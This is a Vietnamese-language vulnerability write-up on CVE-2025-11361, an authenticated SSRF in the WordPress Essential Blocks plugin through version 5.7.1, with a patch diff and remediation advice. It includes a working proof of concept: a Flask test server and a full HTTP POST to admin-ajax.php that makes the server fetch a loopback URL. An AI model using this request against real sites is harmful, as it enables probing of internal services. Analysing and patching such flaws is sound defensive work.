

<!--more-->

## CVE & Basic Info

Plugin **Gutenberg Essential Blocks – Page Builder for Gutenberg Blocks & Patterns** cho **WordPress** bị lỗ hổng **Server-Side Request Forgery (SSRF)** trong tất cả các phiên bản lên tới và bao gồm **5.7.1**, thông qua hàm **eb_save_ai_generated_image**.  
Điều này cho phép kẻ tấn công đã xác thực, có quyền **Author-level** trở lên, thực hiện các yêu cầu web tới bất kỳ địa chỉ nào xuất phát từ ứng dụng web và có thể bị lợi dụng để truy vấn và chỉnh sửa thông tin từ các dịch vụ nội bộ.

* **CVE ID**: [CVE-2025-11361](https://www.cve.org/CVERecord?id=CVE-2025-11361)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 5.7.1
* **Patched Versions**: 5.7.2
* **CVSS severity**: Low (5.5)
* **Required Privilege**: Author
* **Product**: [WordPress Essential Blocks for Gutenberg Plugin](https://wordpress.org/plugins/essential-blocks/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Essential Blocks for Gutenberg**: **5.7.1** (vulnerable) và **5.7.2** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="Admin.php v5.7.1" hl_lines=[3,6,10,14,16]}
public function eb_save_ai_generated_image()
{
    if ( ! isset( $_POST[ 'admin_nonce' ] ) || ! wp_verify_nonce( sanitize_key( $_POST[ 'admin_nonce' ] ), 'admin-nonce' ) ) {
        wp_send_json_error( __( 'Nonce Error', 'essential-blocks' ) );
    }
    if ( ! current_user_can( 'upload_files' ) ) {
        wp_send_json_error( __( 'You are not authorized to upload files!', 'essential-blocks' ) );
    }
    // Check if we have either image_url or image_b64 along with prompt
    if ( ( isset( $_POST[ 'image_url' ] ) || isset( $_POST[ 'image_b64' ] ) ) && isset( $_POST[ 'prompt' ] ) ) {
        $image_url   = isset( $_POST[ 'image_url' ] ) ? esc_url_raw( $_POST[ 'image_url' ] ) : null;
        $image_body = '';
        // Handle URL format
        if ( $image_url ) {
            // Download the image from OpenAI URL
            $image_data = wp_remote_get( $image_url, [
                'timeout' => 60
                ] );
            if ( is_wp_error( $image_data ) ) {
                wp_send_json_error( [
                    'message' => __( 'Failed to download image from OpenAI.', 'essential-blocks' )
                    ] );
                return;
            }
            // Detect image format and set appropriate extension and MIME type
            $image_info = getimagesizefromstring( $image_body );
            $mime_type  = $image_info ? $image_info[ 'mime' ] : 'image/png';

            // Determine file extension based on MIME type
            $extension = 'png'; // default
            switch ( $mime_type ) {
                case 'image/jpeg':
                    $extension = 'jpg';
                    break;
                case 'image/png':
                    $extension = 'png';
                    break;
                case 'image/webp':
                    $extension = 'webp';
                    break;
                case 'image/gif':
                    $extension = 'gif';
                    break;
            }
            $image_body = wp_remote_retrieve_body( $image_data );
        }
        // other logic
    } else {
        wp_send_json_error( __( 'Image data (URL or base64) and prompt are required', 'essential-blocks' ) );
    }
}
```

Trong phiên bản lỗi, sử dụng `wp_remote_get($image_url)` để tải hình ảnh mà không xác thực hoặc giới hạn nguồn URL. Không kiểm tra mã phản hồi HTTP, MIME type hay nội dung thực tế của tệp trả về, khiến kẻ tấn công có thể lợi dụng gửi yêu cầu SSRF đến các dịch vụ nội bộ hoặc tải về dữ liệu độc hại giả dạng hình ảnh.

**Bản vá**:

```php {filename="Admin.php v5.7.2" hl_lines=[3,10,14,16,39,57,58,59,60,61,64]}
public function eb_save_ai_generated_image()
{
    if ( ! isset( $_POST[ 'admin_nonce' ] ) || ! wp_verify_nonce( sanitize_key( $_POST[ 'admin_nonce' ] ), 'admin-nonce' ) ) {
        wp_send_json_error( __( 'Nonce Error', 'essential-blocks' ) );
    }
    if ( ! current_user_can( 'upload_files' ) ) {
        wp_send_json_error( __( 'You are not authorized to upload files!', 'essential-blocks' ) );
    }
    // Check if we have either image_url or image_b64 along with prompt
    if ( ( isset( $_POST[ 'image_url' ] ) || isset( $_POST[ 'image_b64' ] ) ) && isset( $_POST[ 'prompt' ] ) ) {
        $image_url   = isset( $_POST[ 'image_url' ] ) ? esc_url_raw( $_POST[ 'image_url' ] ) : null;
        $image_body = '';
        // Handle URL format
        if ( $image_url ) {
            // Download the image from validated URL
            $image_data = wp_safe_remote_get( $image_url, [
                'timeout'     => 30,
                'redirection' => 3,
                'user-agent'  => 'Essential Blocks/' . ESSENTIAL_BLOCKS_VERSION,
                'headers'     => [
                    'Accept' => 'image/*'
                    ]
                ] );
            if ( is_wp_error( $image_data ) ) {
                wp_send_json_error( [
                    'message' => __( 'Failed to download image from URL.', 'essential-blocks' )
                    ] );
                return;
            }
            // Validate response
            $response_code = wp_remote_retrieve_response_code( $image_data );
            if ( $response_code !== 200 ) {
                wp_send_json_error( [
                    'message' => __( 'Invalid response from image URL.', 'essential-blocks' )
                    ] );
                return;
            }
            // Security: Validate image content and size
            if ( ! $this->is_valid_image_content( $image_body ) ) {
                wp_send_json_error( [
                    'message' => __( 'Invalid image content provided.', 'essential-blocks' )
                 ] );
                return;
            }
            // Detect image format and set appropriate extension and MIME type
            $image_info = getimagesizefromstring( $image_body );
            if ( ! $image_info ) {
                wp_send_json_error( [
                    'message' => __( 'Unable to determine image format.', 'essential-blocks' )
                 ] );
                return;
            }

            $mime_type = $image_info[ 'mime' ];

            // Security: Only allow specific image MIME types
            $allowed_mime_types = [
                'image/jpeg',
                'image/png',
                'image/webp',
                'image/gif'
             ];

            if ( ! in_array( $mime_type, $allowed_mime_types, true ) ) {
                wp_send_json_error( [
                    'message' => __( 'Unsupported image format.', 'essential-blocks' )
                 ] );
                return;
            }
            $image_body = wp_remote_retrieve_body( $image_data );
        }
        // other logic
    } else {
        wp_send_json_error( __( 'Image data (URL or base64) and prompt are required', 'essential-blocks' ) );
    }
}
```

Bản vá thay `wp_remote_get()` bằng `wp_safe_remote_get()` để chặn truy cập đến địa chỉ nội bộ, thêm kiểm tra mã phản hồi HTTP, xác thực nội dung và định dạng hình ảnh (`is_valid_image_content()`, giới hạn MIME hợp lệ), đồng thời giảm timeout và redirect nhằm tăng cường an toàn — qua đó ngăn chặn hoàn toàn khả năng SSRF và xử lý dữ liệu phản hồi một cách an toàn.

```php {filename="Admin.php v5.7.2" hl_lines=[9,10,28,29,30,31,32,33,34,37,38,39,40]}
private function is_valid_image_content( $image_data )
{
    if ( empty( $image_data ) ) {
        return false;
    }

    // Check file size (max 10MB)
    $max_size = 10 * 1024 * 1024; // 10MB
    if ( strlen( $image_data ) > $max_size ) {
        return false;
    }

    // Validate image using getimagesizefromstring
    $image_info = getimagesizefromstring( $image_data );
    if ( ! $image_info ) {
        return false;
    }

    // Check image dimensions (reasonable limits)
    $max_width  = 4096;
    $max_height = 4096;
    if ( $image_info[ 0 ] > $max_width || $image_info[ 1 ] > $max_height ) {
        return false;
    }

    // Additional security: Check for suspicious content patterns
    // Look for common file signatures that shouldn't be in images
    $suspicious_patterns = [
        '<?php', // PHP code
        '<script', // JavaScript
        'javascript:', // JavaScript protocol
        'data:text/', // Text data URLs
        '<html', // HTML content
        '#!/bin/' // Shell scripts
        ];

    $data_start = substr( $image_data, 0, 1024 ); // Check first 1KB
    foreach ( $suspicious_patterns as $pattern ) {
        if ( stripos( $data_start, $pattern ) !== false ) {
            return false;
        }
    }

    return true;
}
```

### Vulnerable Code 

`eb_save_ai_generated_image()` được đăng ký làm callback cho action hook, với hook name `wp_ajax_save_ai_generated_image`

```php
add_action( 'wp_ajax_save_ai_generated_image', [ $this, 'eb_save_ai_generated_image' ] );
```

Tức khi truy cập endpoint `/wp-admin/admin-ajax.php` với param `action=save_ai_generated_image` thì `eb_save_ai_generated_image()` được gọi.

Để `wp_remote_get()` được thực thi, ta cần vượt qua các điều kiện sau:

* check `admin_nonce`

```php
if ( ! isset( $_POST[ 'admin_nonce' ] ) || ! wp_verify_nonce( sanitize_key( $_POST[ 'admin_nonce' ] ), 'admin-nonce' ) ) {
    wp_send_json_error( __( 'Nonce Error', 'essential-blocks' ) );
}
```

Mặc định khi truy cập `wp-admin`, `admin_nonce` sẽ được set, có thể tìm thấy bằng cách inspect code và tìm với từ khóa `admin_nonce`



* Check user-level

```php
if ( ! current_user_can( 'upload_files' ) ) {
    wp_send_json_error( __( 'You are not authorized to upload files!', 'essential-blocks' ) );
}
```

`upload_files` yêu cầu user Author-level trở lên

* `POST request` chứa `image_url` và `prompt` param.

```php
if ( ( isset( $_POST[ 'image_url' ] ) || isset( $_POST[ 'image_b64' ] ) ) && isset( $_POST[ 'prompt' ] ) )
```

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'requirements.txt', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```txt {filename="requirements.txt"}
hello
```

### Proof of Concept (PoC)

Gửi request với `image_url` trỏ đến local service `http://127.0.0.1:8001/test` bằng user **Author**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?loggedout=true&wp_lang=en_US
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C3cc12be38f8f94048309b7fcd31bd2187065311afecea7df5a9f01f5a207072b; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C38f09626eae6d08f6cdb9cd1ce781da26c2acdd8ef2fd1822d84a6d76c6c95ad; wp-settings-time-4=1761017121

action=save_ai_generated_image&admin_nonce=9433571df4&prompt=abc&image_url=http://127.0.0.1:8001/test
```

**Response**:

```json
{
  "success": true,
  "data": {
    "attachment_id": 355,
    "url": "http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png",
    "alt": "abc",
    "title": "abc",
    "caption": "",
    "description": ""
  }
}
```

**Result**:

Đọc file được lưu `http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png` bằng **BurpSuite**



> [!INFORMATION]
> Không thể đọc nội dung trên ở trình duyệt, vì nội dung trong `ai-generated-abc-1761019403.png` (`'hello'`) không phù hợp với **Content-Type: image/png** trả về, nên trình duyệt render ra lỗi.

### Conclusion

Phiên bản **≤ 5.7.1** của **Essential Blocks for Gutenberg** mắc lỗi **SSRF** do dùng `wp_remote_get()` tải URL không kiểm soát, cho phép user **Author** gửi request đến địa chỉ nội bộ. Bản vá **5.7.2** thay bằng `wp_safe_remote_get()`, thêm kiểm tra mã phản hồi, MIME hợp lệ và xác thực nội dung hình ảnh, giúp ngăn chặn SSRF.

### Key takeaways

* Cập nhật ngay lên **v5.7.2**.
* Dùng `wp_safe_remote_get()` thay cho `wp_remote_get()`.
* Luôn xác thực phản hồi (HTTP code, MIME, nội dung).
* Giới hạn timeout, redirect và kích thước file.
* Kiểm tra dữ liệu đầu vào và quyền user cẩn thận.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Essential Blocks for Gutenberg Plugin <= 5.7.1 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/essential-blocks/vulnerability/wordpress-essential-blocks-plugin-5-7-1-authenticated-author-server-side-request-forgery-vulnerability)
